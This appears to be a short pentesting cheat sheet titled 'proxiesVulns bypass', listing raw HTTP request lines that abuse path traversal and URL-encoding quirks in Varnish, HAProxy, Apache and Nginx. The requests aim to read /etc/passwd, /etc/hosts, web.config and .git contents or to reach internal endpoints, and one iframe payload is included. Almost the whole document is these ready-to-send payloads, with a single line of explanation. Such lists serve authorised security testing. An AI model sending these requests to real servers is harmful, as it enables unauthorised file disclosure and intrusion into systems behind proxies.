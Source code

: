 # proxiesVulns bypass

Weird Proxies - https://github.com/GrrrDog/weird_proxies

Varnish or HaProxy

1. GET http://company.com/Endpoints-To-Proxy/.git HTTP/1.1
2. GeT /Endpoint-To-Proxy/../../../../../../etc/passwd HTTP/1.1
3. GET /Endpoint-To-Proxy/..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1

Apache

1. GET /Endpoint-To-Proxy/.git%3FAllowed HTTP/1.1
2. GET /Endpoint-To-Proxy/../../../../../../../etc/passwd HTTP/1.1
3. GET /Endpoint-To-Proxy/../../../../../../etc//./passwd HTTP/1.1
4. GET /Endpoint-To-Proxy/..//../../../../../../etc/passwd HTTP/1.1
5. GET /Endpoint-To-Proxy/..\..\..\..\..\..\..\..\..\..\..\..\..\..\etc\passwd HTTP/1.1
6. GET /Endpoint-To-Proxy\..\.\..\.\..\.\..\.\Internal-Endpoint%3F.js HTTP/1.1
7. GET /Endpoint-To-Proxy\..\.\..\.\..\.\..\.\Internal-Endpoint HTTP/1.1
8. GET /Endpoint-To-Proxy/file:%2f%2f/Internal-Endpoint/%252e%252e/%252e%252e/%252e%252e/etc/passwd HTTP/1.1
9. GET /Endpoint-To-Proxy/%255c%255c%255c%255c%255c%255c..%255c..%255c..%255c..%255c..%255c..%255c/Internal-Endpoint HTTP/1.1
10. GET /Endpoint-To-Proxy/dana-na/../dana/html5acc/guacamole/../../../../../../etc/hosts?/dana/html5acc/guacamole/# HTTP/1.1
11. GET /Endpoint-To-Proxy//..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fwindows/System32/drivers/etc/hosts HTTP/1.1


Nginx

1. GET /..;/..;/..;/..;/web.config HTTP/1.1
2. GET /Endpoint-To-Proxy/..;/../../../../../../etc/passwd HTTP/1.1
3. GET /Endpoint-To-Proxy/../../../../../../../etc/passwd//../ HTTP/1.1
4. GET /Endpoint-To-Proxy/#/../../../../../../../../../../etc/passwd HTTP/1.1
5. GET /Endpoint-To-Proxy../../../../../../../etc/passwd HTTP/1.1
6. GET /../../../../etc/passwd/..;/Endpoint-To-Proxy HTTP/1.1
7. GET /../../../../../../../etc/passwd;/../Endpoint-To-Proxy HTTP/1.1
8. GET /Endpoint-To-Proxy;/../../../../etc/passwd HTTP/1.1
9. GET /Endpoint-To-Proxy/../../../../etc/passwd%2f%2f%2f HTTP/1.1

10. <iframe src="https://www.company.com/Endpoint-To-Proxy/..;/Endpoint-To-Iframe">

By including "..;/", it may be possible to trick the server into thinking that the request is for a different endpoint than the one that is actually being requested

Nginx vs HAProxy (https://klink0v.livejournal.com/692218.html)
